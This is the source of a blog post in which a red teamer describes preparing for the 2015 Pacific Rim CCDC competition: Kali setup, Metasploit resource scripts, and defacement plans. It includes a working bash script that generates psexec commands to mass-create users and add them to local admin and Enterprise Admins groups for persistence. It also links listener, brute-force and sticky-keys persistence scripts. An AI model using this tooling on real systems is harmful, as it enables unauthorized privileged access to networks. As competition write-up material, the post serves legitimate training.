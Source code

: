 ```yaml
---
layout: post
title: How I Prepared to Red Team at PRCCDC 2015
category: 
year: 2015
month: 4
day: 15
published: true
summary: A bit about how I prepared for the Pacific Rim CCDC 2015 competition.
---
```

     
<div class="row">  
     <div class="span9 columns">


<p>I had the opportunity to take part in the Pacific Rim CCDC this past weekend and it was a BLAST! It was my first CCDC, so I really didn't know what to expect. I did know that the last thing I would want to be doing is installing and configuring tools during test time.

<br><br><h3>Kali</h3>
<p>I err'd on the side of installing tools I may not use rather than not installing something I would need. I've got a goto script I use for my setting up a Kali VM and customizing. It installs a ton of tools and scripts that I use. The script can be found <a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/kali_setup.sh">here</a>.


<p>Then, I made some manual tweaks:
<ul><li>Change root password</li>
<li>Enable autologin within <code>/etc/gdm3/daemon.conf</code></li>
<li>Disable screen lockout</li>
<li>Add Leafpad and Screenshot to taskbar</li>
<li>Alias <code>msfconsole='msfconsole -r /msfconsole.rc'</code></li>
<li>Add <code>* * * * * /payload_gen.sh</code> to crontab</li>
</ul>
<p>Next up was loading up on wordlists. I rounded up the usual suspects (Cain, John, RockYou, etc) but I knew I would want to add some inconspicuous user accounts and mess with the Blue Team's host file. To accomodate, I found a list of the top 10,000 US last names. I ended up just whipping up a slightly taunting list of 10 usernames that I used day of, but if I needed 10k usernames I had them.

<p>I wrote a quick bash script to create a Metasploit resource script and batch file that creates new local users and add them to the local admin group for persistence sake.
{% highlight bash lineanchors %}
#!/bin/bash
#by bluescreenofjeff
IFS=$'\n'
USERLISTFILE='/root/Desktop/users.txt'
PASSVAR='StrongPassword1'
OUTFILELOCAL='mass_user_add_local.rc'
OUTBATLOCAL='mass_user_add_local.bat'
OUTFILEDOMAIN='mass_user_add_domain.rc'
OUTBATDOMAIN='mass_user_add_domain.bat'

#BAT Output - local
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes\ >> $OUTBATLOCAL
	echo net user $CURRUSER $PASSVAR >> $OUTBATLOCAL
	echo net localgroup  administrators $CURRUSER  /add >> $OUTBATLOCAL
done

#BAT to RC - local
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILELOCAL
for EACH in `cat $OUTBATLOCAL`
do
	echo set command \" $EACH \" >> $OUTFILELOCAL
	echo run >> $OUTFILELOCAL
done


#BAT Output - domain
for CURRUSER in `cat $USERLISTFILE`
do
	echo net user $CURRUSER /add /active:yes /domain >> $OUTBATDOMAIN
	echo net user $CURRUSER $PASSVAR /domain >> $OUTBATDOMAIN
	echo net localgroup  administrators $CURRUSER  /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
	echo net group "Enterprise Admins"  $CURRUSER /add /domain >> $OUTBATDOMAIN
done

#BAT to RC - domain
echo 'use auxiliary/admin/smb/psexec_command' >> $OUTFILEDOMAIN
for EACH in `cat $OUTBATDOMAIN`
do
	echo set command \" $EACH \" >> $OUTFILEDOMAIN
	echo run >> $OUTFILEDOMAIN
done
{% endhighlight %}
<a href="https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/mass_user_add_generator.sh">Source</a>

<br><br>
<h3>Metasploit</h3>
<p>Most of the Red Teamers used Cobalt Strike Team Servers as their base of operations, but since I haven't used it that much and didn't want to potentially get shut out of my target boxes because of learning curve. I decided to stick with msfconsole as my main tool for the weekend. My main goal in preparation was to get as much of the time-wasting stuff automated as possible.


<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/intel.rc">intel.rc</a> - Runs a number of intel-gathering Windows commands. Run from the Meterpreter prompt.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bounce.rc">bounce</a> - Restarts a reverse_tcp listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/bouncessl.rc">bouncessl</a> - Restarts a reverse_https listener on 443.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/local500.rc">local500.rc</a> - Sets up for a brute force of the built-in 500 accounts. Modify with <code>file:///path/to/wordlist</code> on line 4.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">winpersist.rc</a> - Sets up sticky keys, utilman, and display persistence using psexec_command.
<p><a href="https://github.com/bluscreenofjeff/Metasploit-Resource-Scripts/blob/master/winpersist.rc">msfconsole.rc</a> - msfconsole startup script. Reference the file path in the alias above. This gets written by the script above


<br><br>
<h3>Commands</h3>
<p>The biggest prep item was getting a solid copy/paste command list ready. This was a big focus point of the Red Team this year since the goal was to attack Blue Teams with the same attacks at roughly the same times. The command list has been reposted by Action Dan <a href="http://lockboxx.blogspot.com/2015/03/red-teaming-at-prccdc-2015.html">here</a>. 

<p>In the time leading up to the official start, I pasted every single command from Phase 1's attacks into their own consoles so once the Red Team gets the go-ahead all you have to do is hit enter. 




<br><br>
<h3>Defacement</h3>
<p>Though this was my first rodeo, I knew that there would be opportunities to deface some web interfaces and I wanted to be ready to bring some lulz. This is what I settled on:
<img src="{{site.url}}/assets/prccdc2015-defacement.gif">
<a href="">Source</a>

<p>Looking back now, I should have also gathered some nice gifs about patching or host hardenening.
     

<br><br>
<h3>Prepping for Next Year</h3>
<p>As I mentioned I had a blast this year and hope to attend again next year. Before then I'd there are a few scripts I'd like to have written and in-hand before go-time:
<ul>
	<li><b>ndiff to monitor environment</b> - Before this year I started tweaking this script from the nmap documentation to diff periodic scans and monitor for network changes. I didn't get it polished enough and now am wondering if it's the best way to get what I'm after, but I'd like to be able to monitor the Blue Team's environment as close to realtime as possible. Spot new hosts, identify restarts, etc.</li>
	<li><b>Low-hanging fruit scans</b> - Along the same lines, I would like a way to constantly check for previously used credentials, previously exploited vulns, etc to try and catch systems when they get reverted. </li>
	<li><b>Script to remove users from admin groups</b> - This is something my Red cell team manually did this year. We got Domain Admin access and once the final phase of wreaking havoc was called on we ran the resource script to remove all DAs from the Domain Admin, Enterprise Admin, Schema Admin, and Remote Desktop user groups. It would have been much easier to have a script to make that resource script. Simple enough.</li>
	<li><b>moar lulz</b> - Somewhere around the middle of Phase 2 my co-Red cell teamer and I were watching Boos chasing the Blue Teamer's mouse and causing them much frustration while trying to write a Disaster Recovery Plan. That was a lot of fun. I'd like to find some more ways to make our presence known to the Blue Teamers without being too destructive and watch them try to remediate us out. VNC, replaced sysinternals tools, things like that would be fun...</li></ul>

<p>If I had to give one piece of advice to a first time Red Teamer, my suggestion is to prepare as much as possible. The LAST thing you want to be doing during the competition is Googling how to run an exploit or how to add add yourself to the local admin group. That's not to say you'll avoid it completely-- you most likely won't -- but you want to minimize searching time down to things that are unique to the environment at hand. Automate the basic stuff that takes time, copy/paste the rest.
     
     </div>
</div>
<div class="row">
     <div class="span9 column">
          <p class="pull-right">{% if page.previous.url %} <a href="{{page.previous.url}}" title="Previous Post: {{page.previous.title}}"><i class="icon-chevron-left"></i></a>     {% endif %}   {% if page.next.url %}    <a href="{{page.next.url}}" title="Next Post: {{page.next.title}}"><i class="icon-chevron-right"></i></a>     {% endif %} </p>  
     </div>
</div>

